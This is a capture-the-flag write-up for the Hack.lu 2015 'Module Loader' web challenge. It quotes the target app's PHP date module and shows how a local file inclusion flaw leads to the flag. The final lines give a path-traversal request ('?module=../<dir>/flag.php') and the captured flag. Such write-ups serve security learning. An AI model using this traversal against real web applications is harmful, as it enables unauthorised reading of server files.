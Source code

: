 # Hack.lu CTF 2015 - Module Loader (Web, 100pts)

## Problem

100 Points by lucebac (Web)

Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.


## Solution

We get simple web application with two available options:

![Welcome screen]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader1.png)

After quick research there's an obvious LFI (Local File Include)

![LFI]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader2.png)


It looks like we can see any file we want to as they are just printed out, here's source code of date module:

```php
<?php 
if (isset($_GET['time']))
    $tmp = explode("-", $_GET['time']);
else
    $tmp = array(1970, 1, 1);
$y = (int)$tmp[0];
$m = (int)$tmp[1];
$d = (int)$tmp[2];

var_dump($y);
var_dump($m);
var_dump($d);
?>
<div id="clock"></div>
<!-- <script src="countdown.js"></script> -->
<script>
var clock = document.getElementById("clock");
var now = new Date();
clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d; ?>)).toString();
setInterval(function(){clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d ?>)).toString();}, 1000);
</script>

```

Also, we can display .htaccess, which contains some directory with quite "obvious" name :P


<!--
# seems to be not working, though
#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
#    Options -Indexes
#</Directory>
# -->

Let's take a look there and here we go:

![3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae content]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader3.png)


Last thing is to use LFI and see, what's in flag.php file:

![Flag]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader4.png)


school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php


flag{hidden_is_not_actually_hidden}
